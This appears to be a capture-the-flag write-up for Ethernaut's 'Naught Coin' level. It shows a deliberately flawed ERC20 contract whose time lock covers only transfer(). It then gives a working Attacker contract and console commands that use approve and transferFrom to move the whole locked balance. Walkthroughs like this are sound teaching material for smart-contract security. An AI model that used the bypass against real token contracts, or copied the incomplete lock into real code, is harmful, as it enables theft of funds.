 # 15. Naught Coin

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

## Vulnerability

As this contract inherits from ERC20, we can call any standard ERC20 function on it: especially `approve(address to, uint256 amount)` which will allow another account to spend funds on behalf of the first account. Thus, bypassing :

```solidity
   if (msg.sender == player) {
      require(now > timeLock);
      _;
    }
```


We are going to need 2 accounts, the first one must be your user account (EOA) while the second one can be EOA or CA, I went for a smart contract as the second account.

My smart contract is :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract Attacker {

    address targetContract;
    address myAccount;

    constructor(address _myAccount, address _targetContract) {
        myAccount = _myAccount;
        targetContract = _targetContract;
    }

    function attack() public {
        uint256 balance = IERC20(targetContract).balanceOf(myAccount);
        IERC20(targetContract).transferFrom(myAccount, address(this), balance);
    }
    
}
```
Just deploy it with your first account address as first parameter and the challenge instance address as the second parameter.
Let's assume that my contract is deployed at address `ADDRESS_OF_SECOND_ACCOUNT`.

Then from your first account, in the ethernaut console :

```js
const balance = await contract.balanceOf("ADDRESS_OF_FIRST_ACCOUNT");
await contract.approve("ADDRESS_OF_SECOND_ACCOUNT", balance);
```

From Remix for example, just call your contract attack function, that will transfer all the funds to the smart contract account since it was approved to do so by the holder of the tokens : `ADDRESS_OF_FIRST_ACCOUNT`.

You can submit the challenge !

